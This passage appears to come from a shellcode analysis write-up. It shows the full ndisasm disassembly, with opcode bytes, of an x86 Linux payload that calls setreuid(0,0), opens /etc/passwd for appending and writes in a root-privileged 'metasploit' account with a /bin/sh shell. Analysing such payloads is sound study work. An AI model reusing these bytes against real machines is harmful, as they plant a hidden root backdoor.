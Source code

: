 The command line arguments passed to `ndisasm` specify `x86` (32 bit) architecture and that the output should be formatted in the Intel format. The output of the above command in its entirety is shown below. Note that some assembly instructions are not accurate, specifically instructions following `CALL` instructions. The output will be broken down in to smaller sections later on.

```nasm
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1 
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax 
0000005F  CD80              int 0x80
``` 
